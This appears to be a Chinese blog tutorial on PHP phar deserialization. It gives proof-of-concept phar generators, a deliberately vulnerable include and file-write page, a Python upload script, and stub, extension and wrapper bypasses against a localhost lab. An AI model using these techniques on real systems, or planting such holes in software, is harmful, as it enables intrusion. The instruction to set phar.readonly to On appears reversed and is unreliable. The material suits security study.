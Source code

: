 ```yaml
---
title: 浅析phar反序列化
date: 2024-10-22 16:11:27
permalink: /pages/88a8e0/
author: 
  name: the0n3
  link: https://the0n3.top
---
```

# 浅析phar反序列化

## 定义

官方解释：什么是 phar？PHAR（PHP Archive）文件实际上是一种打包格式，用于将多个 PHP 文件和资源打包成一个文件。phar 归档的最佳特征是可以将多个文件组合成一个文件。phar 归档可以像任何其他文件一样由 PHP 在命令行和 Web 服务器上执行。

可不可以这样认为？phar文件是一个移动U盘，php可以通过`phar://`协议直接访问和执行U盘中的文件？

可以使用任何 fopen() 相关函数，opendir() 和 mkdir() 相关函数在 phar 归档内读取、更改、创建新文件或目录

<!-- more -->

## 结构

phar文件本质是一种压缩文件


### stub （phar文件头）

前面xxx内容不限，但必须以`__HALT_COMPILER();`结尾，否则phar扩展无法识别这个phar文件

因为前面的内容不限，在遇到限制文件格式时可以通过stub伪造文件类型上传

```php
xxx<?php xxx; __HALT_COMPILER();?>
```

### manifest （元数据）

在这部分会将序列化的形式存储用户自定义的meta-data，这里即为反序列化漏洞点。

### contents （压缩文件内容）

被压缩文件的内容，可以写入php代码，通过include()及phar协议进行文件包含或者phar协议具体到某个php文件直接执行

### signature （签名）

可选

## 利用

在`php.ini`修改配置，开启`phar.readonly`选项，取消前面的`;`注释

```plaintext
[Phar]
; http://php.net/phar.readonly
phar.readonly = On
```

利用前提

- 存在文件上传/文件读写
- 页面定义了类，且存在文件操作的函数

受影响函数列表[原文地址](https://paper.seebug.org/680/)

![1](https://the0n3.top/medias/stuphar/1.png)

本地简单尝试利用

phar.php生成phar文件

```php
<?php
highlight_file(__FILE__);
    $phar = new Phar("shell.phar"); //生成一个phar文件后缀名必须为phar
    $phar->startBuffering();//开始缓冲Phar 写操作
    $phar->setStub("<?php __HALT_COMPILER(); ?>"); //设置stub
    $o = 'hello,phar';
    $phar->setMetadata($o); //将自定义的meta-data存入manifest
    $phar->addFromString("test.txt", "<?php phpinfo();?>"); //添加要压缩的文件，内容为aaa
    //签名自动计算
    $phar->stopBuffering();//停止缓冲对 Phar 归档的写入请求，并将更改保存到磁盘
?>
```

index.php通过phar协议实现文件包含

```php
<?php
highlight_file(__FILE__);
include$_GET['file'];
```

![3](https://the0n3.top/medias/stuphar/3.png)

文件操作触发的反序列化

通过写文件代替文件上传，使用file_get_contents()函数举例读取文件时触发`phar`反序列化

```php
<?php
highlight_file(__FILE__);
    class test{
    public $a;
    public function __destruct(){
        phpinfo();
    }
}
# 直接写文件代替文件上传
@file_put_contents($_POST['filename'],$_POST['content']);

$file = $_GET['file'];
@file_get_contents($file);
?>
```

生成phar文件

```php
<?php
highlight_file(__FILE__);
    class test {
        public $a;
    }
    $phar = new Phar("shell.phar"); //生成一个phar文件后缀名必须为phar
    $phar->startBuffering();//开始缓冲Phar 写操作
    $phar->setStub("<?php __HALT_COMPILER(); ?>"); //设置stub
    $o = new test();
    $o -> a='hacker';
    
    $phar->setMetadata($o); //将自定义的meta-data存入manifest
    $phar->addFromString("test.txt", "aaa"); //添加要压缩的文件，内容为aaa
    //签名自动计算
    $phar->stopBuffering();//停止缓冲对 Phar 归档的写入请求，并将更改保存到磁盘
?>
```

题目使用file_put_contents()函数写入文件，直接复制`shell.phar`文件内容会失败

需要复制二进制内容，使用python读取、上传

```python
import requests

url = 'http://localhost/stuphar/'
data = {
    'filename':'a.phar',
    'content':open('shell.phar','rb').read(),
}
resp = requests.post(url,data=data)
print(resp.text)
```

上传后，使用phar协议读取phar文件，触发反序列化

![2](https://the0n3.top/medias/stuphar/2.png)

## 扩展名

php通过`stub`文件头识别phar文件，所以可以自由修改文件后缀名绕过

## 文件头绕过

`$phar->setStub("<?php __HALT_COMPILER(); ?>");`，这里`stub`的文件头存在操作空间，添加一些白名单文件头

```php
$phar->setStub("GIF89a<?php __HALT_COMPILER(); ?>");
```

## 伪协议绕过

限制`phar://`协议开头时，通过其他协议绕回来

```php
include('php://filter/read=convert.base64-encode/resource=phar://phar.phar/test.txt');
```

参考：

- [浅析phar反序列化](https://baozongwi.xyz/2024/09/05/%E6%B5%85%E6%9E%90phar%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96/)
- [利用 phar 拓展 php 反序列化漏洞攻击面](https://paper.seebug.org/680/)
- [phar反序列化](https://blog.foreverwl.top/archives/pharfxlh#heading-2)
- [Phar与Stream Wrapper造成PHP RCE的深入挖掘](https://blog.zsxsoft.com/post/38)
- [通过Phar文件进行的反序列化攻击](https://chenlvtang.top/2021/03/20/%E9%80%9A%E8%BF%87Phar%E6%96%87%E4%BB%B6%E8%BF%9B%E8%A1%8C%E7%9A%84%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%94%BB%E5%87%BB/)